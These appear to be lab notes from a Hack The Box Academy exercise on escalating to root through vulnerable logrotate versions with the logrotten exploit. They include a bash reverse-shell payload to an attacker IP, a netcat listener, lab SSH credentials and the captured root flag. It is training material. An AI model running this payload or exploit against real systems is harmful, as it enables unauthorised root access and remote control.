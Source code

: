 # 16 logrotate

Logrotate has many features for managing these log files. These include the specification of:

the size of the log file, its age, and the action to be taken when one of these factors is reached.

cat /etc/logrotate.conf

Force a new rotation :

sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3 /var/log/mysql/mysql.log" 2022-8-3

Find the corresponding configuration files in /etc/logrotate.d/ directory :

ls /etc/logrotate.d/ alternatives apport apt bootlog btmp dpkg mon rsyslog ubuntu-advantage-tools ufw unattended-upgrades wtmp

cat /etc/logrotate.d/dpkg

/var/log/dpkg.log { monthly rotate 12 compress delaycompress missingok notifempty create 644 root root }

## Exploitation

Requirements :

* we need write permissions on the log files
* logrotate must run as a privileged user or root
* vulnerable versions: 3.8.6 3.11.0 3.15.0 3.18.0

git clone https://github.com/whotwagner/logrotten.git cd logrotten gcc logrotten.c -o logrotten

echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload grep "create|compress" /etc/logrotate.conf | grep -v "#" create

On our attack host :s nc -nlvp 9001

./logrotten -p ./payload /tmp/tmp.log

## LAB

ssh htb-student@10.129.204.41 HTB\_@cademy\_stdnt!

git clone https://github.com/whotwagner/logrotten.git cd logrotten gcc logrotten.c -o logrotten scp logrotten htb-student@10.129.204.41:/home/htb-student/ HTB\_@cademy\_stdnt!

### Recon

htb-student@ubuntu:\~$ tree . . ├── backups │   ├── access.log │   └── access.log.1 └── logrotten ├── README.md ├── logrotten.c ├── logrotten.png └── test ├── create\_env.sh ├── logrotate.cfg └── pwnme.log

ls -l backups/

ls -l backups/ total 4 -rw-r--r-- 1 htb-student htb-student 0 Jun 14 2023 access.log -rw-r--r-- 1 htb-student htb-student 91 Jun 14 2023 access.log.1

grep "create|compress" /etc/logrotate.conf | grep -v "#" grep: /etc/logrotate.conf: No such file or directory

cat /var/lib/logrotate.status logrotate state -- version 2 "/home/htb-student/backups/access.log" 2023-6-14-14:1:27

logrotate -vf /home/htb-student/backups/access.log Ignoring /home/htb-student/backups/access.log because it's empty.

logrotate -vf /home/htb-student/backups/access.log.1

sudo logrotate -vf /home/htb-student/backups/access.log.1

chmod 777 /var/lib/logrotate.status chmod: changing permissions of '/var/lib/logrotate.status': Operation not permitted

ls /etc/logrotate.d/ alternatives apt dpkg rsyslog ufw apport bootlog mon ubuntu-advantage-tools unattended-upgrades

cat /etc/logrotate.d/dpkg /var/log/dpkg.log { monthly rotate 12 compress delaycompress missingok notifempty create 644 root root }

### Exploit

cd logrotten gcc logrotten.c -o logrotten echo 'bash -i >& /dev/tcp/10.10.14.179/9001 0>&1' > payload

On our attack host :s nc -nlvp 9001

./logrotten -p ./payload /home/htb-student/backups/access.log Waiting for rotating /home/htb-student/backups/access.log...

echo 11 > /home/htb-student/backups/access.log

Renamed /home/htb-student/backups with /home/htb-student/backups2 and created symlink to /etc/bash\_completion.d Waiting 1 seconds before writing payload... Done!

nc -nlvp 9001

root@ubuntu:~~# cat /root/flag.txt HTB{l0G\_r0t7t73N\_00ps} root@ubuntu:~~# id uid=0(root) gid=0(root) groups=0(root) root@ubuntu:\~# cat ls
